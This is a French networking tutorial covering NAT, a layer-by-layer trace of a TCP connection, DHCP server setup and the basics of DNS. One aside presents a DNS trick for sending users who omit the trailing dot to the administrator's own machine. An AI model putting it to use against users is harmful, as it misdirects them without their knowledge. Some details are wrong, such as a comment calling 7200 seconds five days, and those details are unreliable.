Port externe TCP 22 (SSH)
@IP interne 10.0.1.5
Port interne TCP 22
Il nous reste même une adresse IP non utilisée ! C'est le Pérou ! :p
Ceci dit, l'exercice n'est pas encore tout à fait terminé, car il faut aussi donner accès à Internet à nos 250 utilisateurs.
Mais ça, c'est facile, il suffit d'activer la NAT dynamique sur une de nos adresses IP.
Euh, mais on a déjà 5 adresses prises par du port forwarding, donc on ne peut pas utiliser n'importe laquelle de ces adresses, non ?
En fait, si !
Si vous vous souvenez bien, les ports alloués pour les clients sont alloués au-dessus de 1024. Or, ici, les ports utilisés pour le port forwarding sont tous en dessous. Nous avons donc, sur chacune de nos 6 adresses publiques disponibles, la possibilité de mettre en place de la NAT dynamique pour nos utilisateurs !
Et hop, mission accomplie pour notre nouvel administrateur ! :D
Nous en avons donc fini avec la NAT et le port forwarding qui sont si utiles aujourd'hui !
Vous avez maintenant vu toutes les couches de 1 à 4.
Vous connaissez les protocoles réseau associés à ces couches.
Vous connaissez les mécanismes comme la NAT qui sont nécessaires au bon fonctionnement d'Internet.
Enfin, vous avez appris toute la théorie des réseaux TCP/IP dont nous avons besoin pour comprendre le fonctionnement réseau d'Internet, à travers la compréhension du modèle OSI.
Si vous êtes arrivés jusque-là sains et saufs, bravo !
Pour s'assurer que vous avez tous bien compris et assimilé le cours, nous allons faire un récapitulatif complet de ce que nous avons vu pour bien fixer les idées.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Ça y est, vous avez toutes les connaissances réseau suffisantes pour comprendre comment fonctionne Internet, mais avant d'aller plus loin nous allons réviser ce que nous avons vu avec un exercice complet qui va utiliser toutes les connaissances que nous avons acquises jusqu'à maintenant.
Si vous savez faire cet exercice de A à Z, bravo ! Vous pouvez considérer que vous avez de très bonnes bases en réseau.
Ceci dit, il est très rare de faire tout de A à Z sans oublier une petite étape. :p
C'est parti pour un premier chapitre court de présentation de l'exercice !
Présentation de l'exemple et principes de résolution
Nous allons maintenant essayer de suivre une connexion de A à Z avec toutes les connaissances que nous avons.
Voici le schéma réseau qui va représenter notre connexion :
Schéma réseau de la connexion
Nous allons donc détailler une connexion web que vous pourriez faire, de votre machine sur votre réseau chez vous, derrière votre box, vers l'adresse 88.191.135.63.
Comment allons-nous procéder ?
Effectivement, si je vous demande, comme ça, par où commencer, cela peut vous paraître complexe, mais nous allons déjà identifier les étapes de la connexion.
Au départ, notre machine
Dans un premier temps, la connexion va partir de l'application qui tourne sur notre machine, c'est-à-dire dans notre cas du navigateur Firefox.
Puis il va y avoir beaucoup d'étapes avant de réussir à former la trame à envoyer sur le réseau. Pour comprendre chacune de ces étapes, nous allons nous appuyer sur notre support principal de compréhension des réseaux, j'ai nommé... le modèle OSI !
Comme je vous l'avais dit et comme vous pouvez le concevoir, le modèle OSI permet de comprendre en profondeur le fonctionnement des réseaux, nous allons donc l'utiliser pour détailler le parcours de nos informations. Et notamment pour l'envoi d'une information sur le réseau.
Envoi dans le modèle OSI
Nous voyons bien ici que nous allons devoir détailler les informations relatives à chacune des couches avant de pouvoir envoyer notre trame sur le réseau, mais nous savons maintenant dans quel ordre le faire.
Envoi de la trame sur le réseau
Nous allons ensuite voir ce qu'il advient de notre trame sur le réseau, quels matériels sont rencontrés, quels protocoles sont utilisés, etc.
D'ailleurs, nous allons encore nous servir du modèle OSI chaque fois qu'un matériel réseau est rencontré. Cependant, cette fois, le parcours du modèle OSI se fera dans le sens inverse, du bas vers le haut puisque la trame provient du réseau et va vers l'application.
Nous verrons comment la trame parcourt le réseau et ce qui est modifié à chaque passage par un équipement.
Réception de la trame par la machine destinataire et réponse
De la même façon que précédemment, nous allons cette fois remonter les couches du modèle OSI jusqu'à la couche 7 applicative. Nous verrons comment les informations sont reçues et aiguillées entre les couches et comment l'application reçoit les informations de départ et peut les traiter.
Il est temps de passer au concret, vous pouvez commencer à réfléchir à chaque étape du processus.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons voir comment nous allons passer d'une requête applicative de notre navigateur, à une trame qui est envoyée sur le réseau. Tout cela se passe au niveau du système d'exploitation de notre machine, et plus précisément dans ce que l'on appelle la pile TCP/IP.
De l'application au réseau
Nous sommes donc devant notre clavier et entrons dans notre navigateur préféré l'adresse du site que nous voulons atteindre : 88.191.135.63.
On entre la demande dans le navigateur
Nous allons maintenant voir tout ce qui se passe au niveau de notre machine à partir du moment où vous tapez sur la touche entrée.
En couche 7
Nous sommes au niveau de votre navigateur web, Firefox chez moi, et celui-ci souhaite envoyer une requête sur le réseau vers le serveur d'adresse IP 88.191.135.63.
Firefox va utiliser le protocole applicatif HTTP pour envoyer une requête web. Le protocole HTTP fonctionnant sur TCP, Firefox va envoyer sa requête au protocole TCP de couche 4.
Plus exactement, et pour les connaisseurs du web, voici à peu de chose près la requête applicative qui est envoyée :
User-Agent : Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
Ce sont donc ces informations qui vont être envoyées au serveur web 88.191.135.63.
Pour l'instant, voici où nous en sommes de l'envoi de notre trame finale:
GET http://88.191.135.63...
Données applicatives
En couche 4
La couche 4 reçoit les informations précédentes et voit qu'une requête doit être envoyée au serveur 88.191.135.63.
Donc avant de pouvoir envoyer nos données applicatives, nous allons devoir envoyer un segment TCP qui demande à la machine 88.191.135.63 si elle veut bien ouvrir une connexion avec nous.
Cette requête ne sera donc qu'une demande d'ouverture de connexion SYN qui ne contient pas de données applicatives.
Ce premier segment TCP envoyé ne contiendra donc pas de données.
Il va cependant falloir former l'en-tête TCP.
Pour former l'en-tête, nous avons notamment besoin des ports TCP utilisés.
Le port destination est donné par Firefox, c'est le port 80 qui est utilisé par défaut pour le web.
Le port source est un port choisi aléatoirement au-dessus de 1024, la pile TCP/IP va donc nous donner un port aléatoire, par exemple 1337. :p
On y ajoute les flags, avec notamment le flag SYN qui est positionné, vu qu'il s'agit de l'initialisation d'une connexion.
Notre trame continue de se former avec pour l'instant le segment TCP:
1337
80
???
flags
???
checksum
Segment TCP
On voit bien ici que les données applicatives ne sont pas dans ce segment, elles ne seront envoyées que quand la connexion TCP sera établie.
Maintenant que le segment TCP est prêt, on peut l'envoyer à la couche 3, qui sera ici le langage quasi universel utilisé, IP.
En couche 3
La couche 3 récupère donc les informations de couche 4 ainsi que l'adresse IP destination.
Comme la couche 3 est en charge du dialogue entre réseaux et notamment de l'aiguillage des paquets, elle va devoir savoir à quel routeur envoyer les informations. Pour cela, elle va voir sa table de routage, qui pour notre exemple est :
Table de routage
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.1
0.0.0.0/0
192.168.0.254
Pour aller vers 88.191.135.63, la passerelle à utiliser est 192.168.0.254.
La couche 3 sait donc maintenant à qui adresser la future trame, elle connaît aussi les adresses IP source et destination ; elle va pouvoir former son datagramme et l'envoyer à la couche 2...
???
192.168.0.1 (source)
88.191.135.63 (destination)
1337
80
???
flags
???
checksum
Datagramme IP, contenant le segment TCP
Mais avant, elle va faire un petit travail supplémentaire pour faciliter le travail de la couche 2, elle va s'occuper de la requête ARP pour indiquer à la couche 2 l'adresse MAC à joindre.
Elle va donc en premier lieu aller voir dans la table ARP si l'adresse MAC du routeur 192.168.0.254 n'est pas déjà présente.
Si elle est présente, c'est parfait, on connaît maintenant l'adresse MAC.
Si elle n'est pas présente, un broadcast ARP va être envoyé sur le réseau pour demander l'adresse MAC de 192.168.0.254. Le routeur va nous répondre et nous connaîtrons son adresse MAC que nous allons inscrire aussi dans la table ARP.
Ainsi, la couche 3 va pouvoir envoyer à la couche 2 le datagramme ainsi que l'adresse MAC de la prochaine machine à joindre.
En couche 2
Notre dernière étape avant l'envoi sur le réseau !
La couche 2 possède maintenant tous les éléments pour envoyer la trame sur le réseau, elle va donc pouvoir la former:
@MAC 192.168.0.254
@MAC 192.168.0.1
proto 3 IP
???
192.168.0.1
88.191.135.63
1337
80
???
flags
???
checksum
CRC
Trame Ethernet qui contient le Datagramme IP, contenant le segment TCP
La couche 2 va pouvoir alors envoyer cette trame sous forme de 0 et de 1 sur le réseau !
Allez, pour le plaisir je vous donne un aperçu de ce que cela peut donner en hexadécimal (en binaire ce serait un peu long...)
Enfin, long pour nous qui étudions tout ce parcours étape par étape, car je vous rappelle que dans la réalité, tout cela se fait en quelques millisecondes... :o
Première rencontre sur le réseau
D'après vous, quel est le prochain matériel rencontré par notre trame ?
Je vous rappelle le schéma :
Schéma réseau de la connexion
Et le prochain matériel rencontré est... un switch !
Nous ne le voyons pas sur le schéma, car il s'agit d'un schéma logique de couche 3, mais il y a bien un switch entre nous et la box.
Le switch reçoit donc notre trame, mais comme c'est un équipement de couche 2, il ne comprend que le protocole Ethernet et ne peut lire que les informations de l'en-tête Ethernet.
@MAC 192.168.0.254
@MAC 192.168.0.1
proto 3 IP
???
CRC
Trame Ethernet qui contient... des choses
Le switch va donc pouvoir lire la trame et notamment l'adresse MAC source et l'adresse MAC destination.
Grâce à l'adresse MAC source, il va pouvoir mettre à jour sa table CAM en indiquant sur quelle prise est branchée la machine 192.168.0.1 (ou simplement remettre le TTL de cette association au maximum).
Ensuite, grâce à l'adresse MAC destination, il va pouvoir identifier la prise sur laquelle il doit renvoyer la trame.
Il va donc récupérer toute la trame, l'analyser et la réémettre sur la prise adéquate.
Et notre trame est repartie sur le réseau !
En route pour le routeur
Notre trame arrive ensuite au routeur.
Le routeur va lire la couche 2...
En réseau, qui peut le plus peut le moins !
Un équipement de couche 3 saura donc parler tous les protocoles des couches inférieures. Sinon, il ne pourrait pas renvoyer les paquets sur le réseau en passant par la couche 2 !
D'ailleurs, l'un des éléments les plus évolués du réseau est... votre machine, car vu qu'elle est capable de parler au niveau applicatif (couche 7), elle connaît tous les protocoles des couches inférieures.
Le routeur lit donc la trame et l'en-tête de couche 2.
Il voit que l'adresse MAC destination est la sienne ! Il va donc pouvoir lire le reste du contenu et envoyer le datagramme à la couche 3.
Il lit notamment le CRC en fin de trame et vérifie qu'il n'y a pas eu d'erreur de transmission pendant le trajet.
Si tout va bien, il remonte le datagramme à la couche 3.
???
192.168.0.1 (source)
88.191.135.63 (destination)
1337
80
???
flags
???
checksum
Datagramme IP, contenant le segment TCP
La couche 3 lit le contenu de l'en-tête et voit que l'adresse IP de destination n'est pas la sienne (ce qui est bien normal pour un routeur qui ne cesse d'aiguiller des paquets qui ne sont pas pour lui)
Il doit donc maintenant aiguiller ce paquet vers son réseau de destination. Pour cela, vous le savez maintenant, il va voir sa table de routage:
Table de routage
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
82.238.22.0/24
82.238.22.47
0.0.0.0/0
Prochain routeur Internet
Sa route par défaut lui dit d'envoyer le paquet vers Internet.
Oui, comme moi, vous avez remarqué un point très important. ;)
Nous allons passer d'un réseau privé 192.168.0.0/24 à un réseau public 82.238.82.0/24 !
Et quand on passe d'un réseau privé à un réseau public, il faut faire de la NAT.
Notre routeur a donc besoin de faire de la NAT, et pour cela, il va devoir aller lire les informations de couche 4. Ça tombe bien, elles sont contenues dans l'en-tête TCP qui est contenu dans le datagramme !
Le routeur récupère donc les ports source et destination, 1337 et 80.
Il va choisir à son tour un port source pour l'envoi du paquet et va noter tout cela dans la table de NAT dynamique:
Table NAT
@IP SRC, @IP DST, port SRC, port DST
@IP SRC, @IP DST, port SRC, port DST
192.168.0.1, 88.191.135.63, 1337, 80
82.238.22.47, 88.191.135.63, 22385, 80
Il va donc modifier les informations de couche 4 et de couche 3 avant de renvoyer la trame sur le réseau.
Avant cela, il fait une requête ARP pour obtenir l'adresse MAC du prochain routeur.
Il peut alors envoyer le nouveau datagramme à la couche 2 :
???
82.238.22.47 (source)
88.191.135.63 (destination)
22385
80
???
flags
???
checksum
Datagramme IP modifié pour la NAT segment TCP
La couche 2 reçoit le datagramme ainsi que l'adresse MAC destination et n'a plus qu'à former la nouvelle trame à envoyer sur le réseau
@MAC prochain routeur
@MAC 82.238.22.47
proto 3 IP
???
82.238.22.47
88.191.135.63
22385
80
???
flags
???
checksum
CRC
Trame Ethernet qui contient le Datagramme IP, contenant le segment TCP
Nous avons vu qu'à chaque passage par un équipement, nous avons remonté le modèle OSI jusqu'au niveau de l'équipement. Le switch a lu les informations jusqu'à la couche 2, le routeur les a lues jusqu'à la couche 4 (car il devait faire de la NAT) et ainsi de suite.
On pourrait donc schématiser le parcours sur le réseau en fonction du modèle OSI de la manière suivante :
Passage sur le réseau selon le modèle OSI
Nous voyons une fois de plus l'importance du modèle OSI, et aussi l'importance de sa compréhension.
Par ailleurs, nous avons vu que lors du passage par notre box, beaucoup d'informations avaient été modifiées dans différentes couches.
On peut en déduire les règles suivantes :
quand on passe d'un réseau à un autre, les adresses MAC changent dans l'en-tête Ethernet (couche 2) ;
quand on passe d'un réseau à un autre, rien ne change dans les en-têtes de couches 3 et 4, IP et TCP, sauf s'il y a de la NAT ;
dans le cas de la NAT, on change aussi les adresses IP source et ports source.
Voici donc deux remarques importantes à garder à l'esprit pour la compréhension du réseau.
Mais il est temps de retourner à nos moutons, car notre trame va continuer ainsi à se balader de routeur en switch et de switch en routeur, jusqu'à atteindre sa destination finale.
Destination finale que nous allons étudier sur le champ ! :p
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Après avoir cheminé sur Internet, notre trame arrive enfin à sa destination.
Réception des informations
Comme vous pouvez vous en douter, nous allons une fois encore parcourir le modèle OSI, et cette fois ce sera en remontant les couches vers la couche applicative.
Réception de la trame en couche 2
Nous sommes donc au niveau du serveur d'adresse IP 88.191.135.63. Il reçoit la trame suivante:
@MAC 88.191.135.63
@MAC 88.191.135.254
proto 3 IP
???
CRC
Trame Ethernet
L'adresse MAC destination est bien celle de notre machine, la couche 2 sait donc maintenant qu'elle va devoir envoyer le datagramme contenu dans la trame à la couche 3. Elle vérifie donc que la trame a été transmise correctement, grâce au CRC, et elle peut alors envoyer le datagramme au protocole de couche 3 indiqué dans l'en-tête, à savoir IP !
Réception du datagramme en couche 3
La couche 3, et plus précisément le protocole IP, reçoit donc le datagramme suivant:
???
82.238.22.47 (source)
88.191.135.63 (destination)
???
Datagramme IP
L'adresse IP destination est aussi la nôtre, il va donc falloir envoyer le segment TCP contenu au protocole de couche 4 indiqué qui est TCP.
La couche 3 finit donc ses traitements et envoie le segment au protocole TCP.
Réception du segment en couche 4
Le protocole TCP reçoit le segment suivant:
1337
80
???
flags/SYN
???
checksum
Segment TCP
Si l'on regarde le contenu des flags, on voit que seul le flag SYN est positionné, il s'agit donc bien d'une demande de connexion.
La couche TCP va par ailleurs vérifier que le port destination demandé est bien ouvert et prêt à recevoir des connexions.
Il y a bien un service en écoute sur le port 80 de la machine, le protocole TCP peut donc répondre favorablement à la demande de connexion et renvoyer un segment TCP contenant les flags SYN et ACK.
Et on est repartis pour un tour en sens inverse !
Cette fois on parcourt tout ce que l'on vient de faire, mais de la machine 88.191.135.63 vers la machine 82.238.22.47, puis vers 192.168.0.1 après la NAT.
La machine 192.168.0.1 recevant le segment TCP avec les flags SYN et ACK va pouvoir finaliser le three way handshake en envoyant un segment TCP avec le flag ACK, qui va établir la connexion TCP.
Une fois la connexion établie, la machine 192.168.0.1 va ENFIN pouvoir faire sa requête web !
Pour information, voici la trame envoyée alors :
@MAC 192.168.0.254
@MAC 192.168.0.1
proto 3 IP
???
192.168.0.1
88.191.135.63
1337
80
???
flags
???
checksum
GET http://88.191.135.63...
CRC
Trame Ethernet qui contient le Datagramme IP, contenant le segment TCP qui contient les données applicatives !
Ouf, eh bien c'est pas trop tôt !
Nous venons donc d'étudier une connexion TCP plus ou moins en détail. Cela devrait maintenant vous permettre de mieux comprendre comment vos machines communiquent sur Internet.
Mais attention, il y a plusieurs points à garder à l'esprit :
nous n'avons vu qu'une version très simplifiée de ce qui se passe réellement ;
tout cela se passe en quelques millisecondes ;
chaque connexion peut utiliser un chemin différent qui la fera passer par un plus ou moins grand nombre de routeurs, mais cela ne change que très peu le temps de transit.
Pourquoi est-ce une version simplifiée ? Ça semble complexe quand même…
Oui, c'est déjà bien complexe, mais ce n'est pas encore représentatif de la réalité. Nous n'avons pas parlé de requête DNS, que nous allons voir dans le chapitre suivant. Nous n'avons pas non plus parlé de proxy qui peut intervenir dans certains cas.
Mais on n'a pas vu le proxy, c'est quoi ?
Les intérêts de mettre en place un proxy peuvent être divers :
une entreprise veut pouvoir centraliser les requêtes d'une application donnée, comme le web, pour voir tout ce qui sort de son réseau ;
un proxy peut aussi servir de cache, c'est-à-dire qu'il va enregistrer les pages web qu'il a visitées, et ainsi les renvoyer lors d'une demande identique, sans avoir à refaire une requête ;
un proxy peut aussi filtrer les requêtes en fonction de critères, comme le type des sites web demandés ;
enfin, on entend parfois parler de proxy "anonyme" pour faire en sorte que ce soit l'adresse du proxy qui soit vue et non la nôtre.
Nous comprenons maintenant comment une information circule sur le réseau de la machine émettrice à la destination. Super, il s'agissait de l'objectif majeur du cours !
Nous allons maintenant faire un peu de pratique, notamment en mettant en œuvre des services qui sont nécessaires au bon fonctionnement des réseaux.
Vous savez maintenant ce qu'est une application et ce que sont un client et un serveur.
Les protocoles de couche 4 utilisés sont TCP et UDP.
L'adressage utilisé pour différencier les applications sur une machine est le port.
La NAT et le port forwarding permettent de relier des réseaux privés à Internet.
Vous avez pu voir le parcours complet d'une information sur Internet.
Il est temps maintenant d'aller plus loin dans le réseau et de comprendre pourquoi nous avons besoin de quelques services supplémentaires pour faire fonctionner tout ce que nous avons vu.
Nous venons donc de voir la couche 4 et avons fait un petit récapitulatif de ce que nous avons vu depuis le début.
Nous connaissons:
ce qu'est une application et ce que sont un client et un serveur,
les protocoles TCP et UDP utilisés en couche 4
l'adressage utilisé pour différencier les applications sur une machine
la NAT et le port forwarding pour relier les réseaux privés à Internet
le parcours complet d'une information sur Internet
Il est temps maintenant d'aller plus loin dans le réseau et de comprendre pourquoi nous avons besoin de quelques services complémentaires.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Comme nous l'avons vu dans les chapitres précédents, l'adresse IP permet d'identifier une machine sur un réseau. Dans le cas d'un réseau IP (la majorité que vous rencontrerez et ceux qui nous intéressent), cette adresse est indispensable pour pouvoir communiquer avec les autres machines du réseau.
Nous allons nous intéresser ici à la manière dont cette adresse peut être obtenue. On distinguera deux méthodes, une manuelle, pour laquelle vous choisissez vous-mêmes l'adresse IP de votre machine et une dynamique où c'est un serveur qui vous fournit cette adresse. Ce serveur s'appelle un serveur DHCP et nous verrons qu'il a d'autres utilités que la simple distribution d'adresses IP.
Il existe donc deux méthodes pour obtenir une adresse IP. Soit c'est vous qui la configurez (méthode manuelle), soit c'est un serveur qui vous la donne (méthode dynamique).
La méthode manuelle pose quelques problèmes de prime abord. En effet, vous avez vu que pour qu'une machine puisse communiquer avec ses voisines, son adresse IP devait se trouver dans le même réseau que les autres machines. Pour sortir du réseau local, il faut que notre machine connaisse l'adresse de la passerelle. Cela fait déjà quelques informations dont il faut avoir connaissance quand vous branchez votre ordinateur à un réseau local.
Autre problème, même si vous avez ces informations, comment vous assurez-vous que l'adresse IP que vous choisissez n'est pas déjà utilisée par une autre machine sur le réseau ?
On se rend donc bien compte qu'il serait bien d'avoir un mécanisme rapide et fiable pour adresser les machines d'un réseau. C'est là qu'entre en jeu le protocole DHCP.
Un protocole pour distribuer des adresses IP
La première fonction d'un serveur DHCP (Dynamic Host Configuration Protocol) est de fournir des adresses IP (associées à un masque, bien évidemment :p ) aux machines en faisant la demande.
Si vous avez configuré votre carte réseau pour récupérer son adresse IP automatiquement, votre machine va chercher à contacter un serveur DHCP susceptible d'être présent sur votre réseau local.
Mais on vient de dire qu'on avait besoin d'une adresse IP pour contacter les autres machines du LAN et ici nous cherchons à dialoguer avec une autre machine. Il nous faut donc une adresse IP, non ? Est-ce qu'on ne se mord pas la queue ?
Oui c'est vrai, on ne peut pas envoyer de paquets IP, étant donné que nous n'avons pas d'adresse IP. Par contre, nous avons une adresse MAC qui est liée à notre carte Ethernet. On peut donc envoyer des trames Ethernet.
Néanmoins, s'il y a un serveur DHCP sur le réseau, nous n'avons aucun moyen de connaître son adresse MAC.
Comment allons-nous pouvoir joindre le serveur DHCP ?
Tout ceci devrait vous rappeler quelque chose, non ? Le problème est le même que pour le protocole ARP.
Nous allons utiliser l'adresse de broadcast !
La trame permettant de trouver un serveur DHCP est une trame "DHCPDISCOVER", comme c'est un broadcast, elle est envoyée à l'adresse MAC ff:ff:ff:ff:ff:ff.
Une fois que notre serveur DHCP reçoit le DHCPDISCOVER, il va renvoyer une proposition, c'est un DHCPOFFER. Il va proposer une adresse IP, un masque ainsi qu'une passerelle par défaut et parfois un serveur DNS.
Les deux derniers sont facultatifs, car ils ne sont pas fondamentalement indispensables au fonctionnement réseau de la machine, bien qu'en pratique on ne puisse pas vraiment s'en passer.
Le client (votre machine) répond par un DHCPREQUEST. Celui-ci est aussi envoyé en broadcast et sert à prévenir quelle offre est acceptée. Le serveur DHCP dont l'offre a été acceptée valide la demande et envoie un DHCPACK qui valide l'allocation du bail.
Requête DHCP complète
Toutefois, lors d'un renouvellement, notre machine ne va pas refaire toute la procédure en commençant par un DHCPDISCOVER. On repart directement du DHCPREQUEST. Les serveurs DHCP conservent en mémoire les adresses qu'ils ont distribuées, associées aux adresses MAC. Ainsi, vous constatez que vous conservez parfois très longtemps la même adresse IP, même si votre bail a sûrement été renouvelé plusieurs fois.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons donc essayer de mettre en place un serveur DHCP. Nous utiliserons pour cela notre machine Debian préférée. ;)
Installation et configuration.
Sous Debian, le serveur dhcp le plus couramment utilisé est isc-dhcp-server, mais il en existe plusieurs comme dhcp3-server ou le célèbre dhcpd.
Nous allons commencer par l'installer.
# apt-get install isc-dhcp-server
Ce serveur est géré par deux fichiers de configuration :
/etc/default/isc-dhcp-server
/etc/dhcp/dhcpd.conf
Dans le premier, on ne fera que déclarer sur quelle interface écoutera notre serveur. La plupart du temps, il s'agit de votre interface principale qui s'appelle eth0.
On édite ce fichier et, si ce n'est pas déjà le cas, on rajoute :
INTERFACES="eth0"
Ensuite, le reste de la configuration se passe dans /etc/dhcp/dhcpd.conf. Ce fichier doit déjà contenir un exemple de configuration. Vous pouvez faire une copie de ce fichier et repartir sur un fichier vierge ou bien continuer avec celui-ci. Si vous l'éditez, notez que l'ordre des lignes de configuration n'a pas d'importance.
On va partir d'un fichier vierge de notre côté.
Voici ce qu'il va contenir :
# Le nom de votre serveur dhcp
server-name "dhcp.monreseau.fr";
# Le domaine attribué à vos clients
option domain-name "monreseau.fr";
# Les serveurs DNS attribués à vos clients
option domain-name-servers 192.168.0.1, 192.168.0.2, 8.8.8.8;
# La durée des baux, en secondes (soit ici 5 jours !)
default-lease-time 7200;
max-lease-time 7200;
# Le masque de sous-réseau
option subnet-mask 255.255.255.0;
# L'adresse de broadcast, qui est optionnelle, mais ça vous fera un bon exercice de la calculer ;-)
option broadcast-address 192.168.0.255;
# Le routeur par défaut
option routers 192.168.0.254;
# Enfin, nous précisons le réseau utilisé et les particularités associées
subnet 192.168.0.0 netmask 255.255.255.0 {
# Ici, nous ne voulons attribuer dynamiquement que les adresses de 10 à 100
range 192.168.0.10 192.168.0.100;
# Enfin, nous pouvons spécifier une adresse précise en fonction d'une machine
# grâce à son adresse MAC
host rguichard-pc {
hardware ethernet 00:23:8B:4B:D1:BD;
fixed-address 192.168.0.10;
}
}
Chaque ligne est commentée dans le fichier.
Notre fichier de configuration est maintenant prêt ! Nous pouvons essayer de lancer le service.
Test de la solution
Dans un premier temps, nous allons vérifier que le serveur DHCP est bien en écoute :
Nous allons essayer de faire une demande d'adresse IP et voir ce qui va se passer au niveau du réseau.
Mais cette fois, nous allons travailler avec un autre sniffer que Wireshark, en ligne de commande avec tcpdump.
Nous allons tout d'abord l'installer : # apt-get install tcpdump
Il faut ensuite le lancer dans un autre terminal, vous vous souvenez ? Il est possible de changer de terminal avec la combinaison de touches CTRL+ATL+Fx.
On change de terminal, puis on lance tcpdump : # tcpdump -i eth0 (Modifiez ethx en fonction de la valeur de votre interface)
L'interface se met en écoute : listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
Maintenant, sur l'autre terminal, nous allons forcer une demande DHCP avec la commande dhclient : # dhclient eth0
Enfin, nous pouvons retourner sur le terminal sur lequel tcpdump est lancé.
Il devrait y avoir quelques paquets reçus, dont ceux qui concernent notre requête DHCP : 17:39:43.007862 IP 0.0.0.0.bootpc > 255.255.255.255.bootps: BOOTP/DHCP, Request from 08:00:27:4e:b7:b1, length 300 17:39:43.032031 IP 10.0.2.2.bootps > 10.0.2.20.bootpc: BOOTP/DHCP, Reply, length 548
On voit ici une requête DHCP request, suivi du DHCP ACK (reply ici). Nous n'avons pas de DHCP DISCOVER ou OFFER, car notre machine a déjà reçu son adresse par DHCP et ne fait donc que les deux dernières étapes de la requête.
Notre serveur DHCP est donc bien installé et prêt à distribuer les adresses IP et informations réseau pour les machines du réseau qui en ont besoin.
Vous savez maintenant ce qu'est le protocole DHCP et à quoi il sert.
Vous savez aussi installer et configurer un serveur DHCP.
Enfin, vous avez vu comment une demande d’adresse IP par DHCP est effectuée.
Vous savez mettre le désordre dans un réseau d'entreprise en mettant un serveur DHCP en place, là où il y en a déjà un. :p
Il nous faut maintenant explorer les principes du protocole DNS dont nous avons parlé mais dont nous ne savons encore pas grand-chose...
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Vous savez maintenant comment votre ordinateur récupère son adresse IP. Vous savez aussi que toutes les machines (ordinateurs, serveurs, routeurs, etc.) connectées à Internet possèdent, elles aussi, une adresse IP. Enfin, nous savons, depuis quelques chapitres déjà, que c'est cette adresse IP qui permet aux machines de communiquer entre elles.
Cependant, cela va nous poser un petit problème. Nous avons beau être des êtres humains avec une bonne mémoire, notre cerveau n'est pas fait pour retenir des séries de chiffres comme 187.232.98.122. On aimerait mieux avoir à retenir des noms comme siteduzero.com. ;)
Il ne s'agit donc pas d'un problème technique, Internet fonctionne très bien avec des adresses IP, mais d'un problème de nommage pour permettre un accès simplifié à Internet pour nous tous, pauvres êtres humains. Ce système de nommage est le Domain Name SystemDomain Name System (DNS).
Le DNS est un protocole indispensable au fonctionnement d'Internet. Non pas d'un point de vue technique, mais d'un point de vue de son utilisation. Il est inconcevable aujourd'hui d'utiliser des adresses IP en lieu et place des noms des sites web pour naviguer sur Internet. Se souvenir de 58.250.12.36 est déjà compliqué, mais quand vous surfez sur 40 sites différents par jour, cela fait quelques adresses à retenir. Et ça, on ne sait pas faire...
Un arbre avec des branches
Une arborescence ordonnée
Le système DNS, vous l'utilisez tous les jours quand vous naviguez sur Internet. Lorsque vous voulez accéder au Site du Zéro, le système DNS se charge de convertir (on parle de résolution) le nom du site web demandé en adresse IP.
Un nom de domaine se décompose en plusieurs parties. Prenons l'exemple suivant :
www.google.fr
Chaque partie est séparée par un point.
On trouve l'extension en premier (en premier, mais en partant de la droite) ; on parle de Top Level Domain (TLD). Il existe des TLD nationaux (fr, it, de, es, etc.) et les TLD génériques (com, org, net, biz, etc.).
Ici, on a le découpage suivant :
www.google.fr
Il existe une infinité de possibilités pour la deuxième partie. Cela correspond à tous les sites qui existent : google.fr, siteduzero.com, ovh.net, twitter.com, etc.
Comme vous le voyez, google.fr est un sous-domaine de fr. Le domaine fr englobe tous les sous-domaines finissant par fr.
La troisième partie est exactement comme la seconde. On y retrouve généralement le fameux "www", ce qui nous donne des noms de domaine comme www.google.fr. www peut soit être un sous-domaine de google.fr, mais dans ce cas il pourrait y avoir encore des machines ou des sous-domaines à ce domaine, soit être directement le nom d'une machine.
Ici, www est le nom d'une machine dans le domaine google.fr.
On peut bien entendu ajouter autant de troisièmes parties que nécessaire, ce qui peut vous conduire à avoir un nom de domaine comme : www.fr.1.new.super.google.fr. :D
Voici une toute petite partie de l'arborescence des noms Internet :
Chaque "partie" est appelée label et l'ensemble des labels constitue un FQDN : Fully Qualified Domain Name. Ce FQDN est unique. Par convention, un FQDN se finit par un point, car au-dessus des TLD il y a la racine du DNS, tout en haut de l'arbre. Ce point disparaît lorsque vous utilisez les noms de domaine avec votre navigateur, mais vous verrez qu'il deviendra très important lorsque nous configurerons notre propre serveur DNS.
Trucs et astuces !
Si jamais vous administrez un réseau, et que vous possédez le domaine mondomaine.com, vous pouvez vous amuser à ajouter dans votre serveur DNS une machine qui s'appellera www.siteduzero.fr.mondomaine.com.
Ainsi, dès qu'une personne qui utilise votre serveur DNS demande www.siteduzero.fr en oubliant de mettre le . à la fin, elle sera envoyée vers votre la machine www.siteduzero.fr.mondomaine.com. !
Hacking power ! :p
Mais revenons aux principes du DNS pour étudier un dernier point important dans l'arborescence.
Dans l'architecture du service DNS, chaque label est responsable du niveau directement en dessous et uniquement de celui-ci. La racine est responsable du domaine .com, le .com de google.com et google.com de www.google.com, etc. Bien entendu, Google veut gérer lui-même le domaine google.com. L'organisme qui gère le domaine .com délègue donc la gestion de ce nom de domaine à Google.
Ainsi, chaque personne qui veut posséder un domaine sur Internet peut l'acheter, mais devra ensuite gérer un serveur DNS pour publier ses adresses.
Cependant, la plupart des entreprises qui vendent des noms de domaine (qu'on appelle registrar) proposent de gérer elles-mêmes vos enregistrements DNS, mais c'est moins fun. ;)
Nous savons donc que le DNS est organisé sous forme d'une grosse arborescence, et que chaque partie de l'arborescence peut être gérée par la personne qui la possède.
Mais comment fait-on pour savoir qui possède telle où telle partie et où sont stockées les informations que l'on recherche ?
La résolution, comment ça marche ?
Vous êtes connectés à votre réseau, votre serveur DHCP vous a donné une adresse IP, un masque de sous-réseau et probablement une passerelle par défaut, ainsi qu'un serveur DNS.
